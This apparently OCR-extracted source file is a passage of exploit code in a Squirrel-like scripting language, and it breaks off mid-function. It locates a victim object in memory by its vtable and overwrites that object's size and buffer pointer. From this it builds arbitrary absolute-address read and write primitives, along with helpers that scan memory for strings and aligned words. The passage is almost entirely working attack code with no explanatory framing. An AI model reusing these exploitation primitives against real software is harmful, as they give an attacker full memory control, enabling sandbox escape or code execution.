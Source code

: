 ```
#
# we can control the victim more easily using buffer
# find the victim inside the buffer block
while (true) {
      if (buffer.readn('l') == vtable) break;
}
local victimIdx = buffer.tell();
buffer.seek(victimIdx + 0x18)
local victimBuf = buffer.readn('l')
printf("found victim: offset %#x, buf %#x\n ", victimIdx, victimBuf);

# set the address that victim will read from / write to
function setaddr(addr) {
  buffer.seek(victimIdx);
  buffer.writen(0x1000, 'l'); # size
  buffer.writen(0x1000, 'l'); # allocated
  buffer.writen(0, 'l'); # ptr
  buffer.writen(addr, 'l'); # buf
}

# read a long from the absolute addr
function read(addr) {
  setaddr(addr);
  return victim.readn('l');
}

# read a character from the absolute addr
function readc(addr) {
  setaddr(addr);
  return victim.readn('c');
}

# write a long to the absolute addr
function write(addr, v) {
  setaddr(addr);
  return victim.writen(v, 'l');
}

# find the address of a string starting at addr
# the argument is the uppercase version of the string to find
# this avoids finding the literal itself
function findChars(addr, str) {
  while (true) {
    local found = true;
    foreach (i,c in str) {
      if (readc(addr + i) != (c ^ 0x20)) {
        found = false;
        break;
      };
    }
    if (found) break;

    addr++;
  }
  return addr;
}

# find a 8-byte aligned word starting from the given addr
function findAlignedQWord(addr, v) {
  while (read(addr) != v) {
    addr += 8;
  }
  return addr;
```